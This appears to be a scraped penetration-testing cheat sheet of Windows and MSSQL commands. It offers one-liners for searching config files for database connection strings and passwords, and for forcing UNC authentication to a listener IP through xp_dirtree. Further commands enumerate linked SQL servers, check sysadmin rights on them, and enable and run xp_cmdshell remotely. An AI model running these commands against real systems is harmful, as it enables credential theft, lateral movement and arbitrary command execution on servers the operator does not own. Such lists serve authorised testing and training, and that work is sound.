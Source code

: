 ## findstr
```
findstr /s /i <keyword> *.*
```

## findstr db password in web.config
```
findstr /s /i ConnectionString <PATH>*.config && echo finish
```

## Powershell Load DLL
```
Add-Type -LiteralPath <filename.dll>
```

# MSSQL

## Find lined servers
```
EXEC sp_linkedservers;
```

## xp_dirtree
https://github.com/NetSPI/PowerUpSQL/wiki/SQL-Server---UNC-Path-Injection-Cheat-Sheet
```
exec xp_dirtree '\\<listen_ip>\file'
```

## Check link server AT other server
```
EXEC ('sp_linkedservers') AT [<link_sqlserver>]
```

## Check sysadmin on link server
```
select mylogin from openquery("<link_sqlserver>", 'SELECT IS_SRVROLEMEMBER(''sysadmin'') as mylogin');
```

## Enable xp_cmdshell on link server
```
EXEC ('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [<link_sqlserver>]
```

## Exec xp_cmdshell on link server
```
EXEC ('EXEC xp_cmdshell ''<cmd>'' ') AT [<link_sqlserver>]
```
